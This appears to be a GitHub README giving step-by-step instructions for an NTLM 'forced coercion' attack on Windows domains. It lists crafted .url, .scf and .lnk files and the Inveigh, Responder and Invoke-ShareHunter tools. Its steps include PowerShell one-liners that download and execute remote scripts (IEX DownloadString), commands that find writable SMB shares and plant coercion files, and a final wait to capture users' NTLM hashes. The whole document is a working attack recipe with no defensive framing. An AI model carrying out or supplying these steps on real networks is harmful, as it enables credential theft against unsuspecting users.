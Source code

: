 # Forced Coersion Attack

## Files to trigger the attack:

#### 1) .url File: A shortcut file that contains a URL pointing to a remote server.

#### 2) .scf File: A Shell Command File configured to initiate a connection to a remote server.

#### 3) .lnk File: A Windows shortcut file crafted to point to a remote server.

## Tools:

### Inveigh https://github.com/Kevin-Robertson/Inveigh

### Responder

### Invoke-ShareHunter https://github.com/Leo4j/Invoke-ShareHunter (Optional)

## Permissions: Local Administrator (Inveigh), Write permissions over an SMB share

## Steps

### 1) Load Inveigh and configure listener

    IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1")

### 2) Load Inveigh and set listener IP (Attack System)

    Invoke-Inveigh -ConsoleOutput Y -HTTPS Y -IP 10.10.10.7

### 3) Load Invoke-ShareHunter

    IEX (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Invoke-ShareHunter/main/Invoke-ShareHunter.ps1')

### 4)  Identify writeable shares within the domain

    Invoke-ShareHunter -Domain security.local

### 5) Write NTLM coercion files to identified writeable shares

    Invoke-URLFileAttack -WritableShares "C:\Users\StandardUser\Shares_Writable.txt"

### 6) Wait for user to browse to a share containing the crafted files and a NTLM hash is captured on the listener
